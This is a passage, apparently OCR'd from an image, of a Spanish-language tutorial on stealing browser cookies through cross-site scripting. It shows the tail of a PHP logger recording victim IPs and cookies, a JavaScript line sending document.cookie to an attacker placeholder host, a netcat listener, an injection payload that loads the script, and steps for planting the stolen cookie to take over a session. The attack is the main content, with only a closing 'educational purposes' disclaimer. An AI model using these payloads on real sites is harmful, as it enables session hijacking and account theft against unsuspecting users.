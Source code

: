    ```php
           fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
           fclose($file);
       }
   }
   ?>
   ```
3. **Crear `script.js`** para robar cookies:
   ```js
   new Image().src='http://OUR_IP:8080/index.php?c='+document.cookie
   ```
4. **Escuchar tráfico con Netcat**:
   ```bash
   nc -lnvp 8080
   ```
5 - Prueba los campos con el payload
    
    "><script src=http://OUR_IP:8080/script.js></script>
  
6 - Recibe el archivo cookie.txt con la coockie
7 - Pon la cookie en tu navegador 

    Inspect > storage > pega cookie > refresca


📌 **Este documento es solo para propósitos educativos. ¡Usa este conocimiento de forma ética!** 🛡️
